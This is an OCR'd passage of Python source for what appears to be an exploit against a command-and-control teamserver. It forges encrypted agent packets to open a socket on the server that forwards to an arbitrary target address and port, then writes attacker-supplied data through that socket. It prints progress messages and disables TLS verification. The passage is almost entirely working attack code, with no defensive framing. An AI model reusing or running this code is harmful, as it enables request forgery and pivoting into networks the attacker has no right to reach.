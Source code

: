 ```

    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"


    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to open socket on the teamserver...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")


def write_socket(socket_id, data):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print("[***] Trying to write to the socket")
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
```
